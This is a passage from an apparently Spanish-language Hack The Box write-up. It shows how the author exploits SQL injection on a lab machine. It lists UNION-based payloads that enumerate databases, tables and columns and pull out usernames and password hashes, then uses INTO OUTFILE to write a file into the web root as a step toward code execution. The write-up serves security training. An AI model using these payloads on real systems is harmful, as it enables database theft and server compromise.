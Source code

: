<p align="justify">
En este punto, podemos confirmar la presencia de una vulnerabilidad de Inyección SQL. Luego de la exfiltración de datos podemos observar que tenemos usuarios y hashes, lo cual hemos registrado, asi que es innecesario crackearlos o hacer algo con ellos. Lo que se puede probar es subir archivos mediante el campo vulnerable.
</p>

<div align="center">
  <table>
    <tr>
      <th>Sintaxis</th>
      <th>Descripción</th>
    </tr>
    <tr>
      <td>campo' union select schema_name from information_schema.schemata-- -</td>
      <td>Listar nombres de las base de datos</td>
    </tr>
    <tr>
      <td>campo' union select table_name from information_schema.tables where table_name="DB"-- -</td>
      <td>Listar tablas de una base de datos</td>
    </tr>
    <td>campo' union select column_name from information_schema.columns where table_name="DB" and table_name='table'-- -</td>
      <td>Listar columnas de una tabla</td>
    </tr>
    <tr>
      <td>campo' union select group_concat(username,0x3a,userhash) from registration-- -</td>
      <td>Agrupar información de las columnas para extraer informacion (Username & userhash)</td>
    </tr>
  </table>
</div>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/fd8e66d2-5a12-49ae-a9f4-4cc5dab73c93">
</p>

> **SQL INJECTION + RCE**

<p align="justify">
Es importante destacar que la información que estamos viendo pertenece a los usuarios que hemos probado hasta ahora, por lo que no podemos considerarla como información de usuarios privilegiados en este momento.

Aunque podemos realizar algunas consultas en la base de datos, debemos tener en cuenta que también podríamos insertar contenido en una ubicación específica a través de una Inyección SQL. Supongamos que el archivo "account.php" se encuentra en la siguiente ruta:
- **/var/www/html/**
</p>

```sql
union select "Data" into outfile "/var/www/html/prueba.txt"-- -
```
<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/b1975edf-f671-4594-aaaa-faaf22a474af">
</p>
